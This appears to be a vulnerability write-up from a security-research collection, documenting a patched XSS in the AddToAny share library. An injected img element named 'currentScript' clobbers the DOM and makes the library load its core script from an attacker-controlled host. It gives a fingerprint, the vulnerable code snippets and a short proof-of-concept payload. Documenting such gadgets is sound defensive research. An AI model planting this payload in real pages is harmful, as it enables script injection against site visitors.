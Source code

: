 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img src="https://addtoany.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk

### Library

URL:
+ `https://static.addtoany.com/menu/page.js` (patched)

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

```
<!--Library-->
<script async src="https://static.addtoany.com/menu/page.js"></script>
<!--Library-->

<!--Payload-->
<img src="https://addtoany.xxx.xxx" name="currentScript">
<!--Payload-->
```